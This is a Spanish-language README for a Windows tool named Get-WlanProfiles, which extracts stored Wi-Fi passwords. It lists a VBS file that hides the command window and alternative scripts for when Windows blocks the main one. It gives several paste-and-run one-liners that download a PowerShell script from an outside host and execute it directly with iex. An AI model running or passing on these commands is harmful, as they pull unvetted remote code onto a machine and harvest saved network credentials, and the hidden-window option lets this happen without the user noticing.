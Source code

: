# Get-WlanProfiles

### Extraer/Obtener contraseñas de WIFI almacenadas en Windows.
Archivos:
<br>Extras/extra1.ps1
<br>Get-WlanProfiles.bat
<br>Get-WlanProfiles.psm1
<br>On-Get-WlanProfiles.ps1
<br>config.vbs - oculta ventana CMD

# Como Ejecutarlo
## Local
-Descague los archivos
<br>-Ejecute el archivo Get-WlanProfiles.bat o en su defecto confi.vbs

## Sin descargar - WEB
### PowerShell
-Abra Powershell<br>
-Pegue y ejecute este comando:
```
iwr -useb on-get-wlanprofiles.migzam.com | iex
```
### CMD
-Abra CMD<br>
-Pegue y ejecute este comando:
```
powershell iex ((New-Object System.Net.WebClient).DownloadString('http://on-get-wlanprofiles.migzam.com'))
```
# Extras
En la carpeta Extras se encuentras alternativas al codigo principal ya que windows en ocaciones bloquea el script.<br>
-Abra PowerShell<br>
-Pegue y ejecute este comando:<br>
```
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mz39729/Get-WlanProfiles/main/Extras/extra1.ps1'))
```

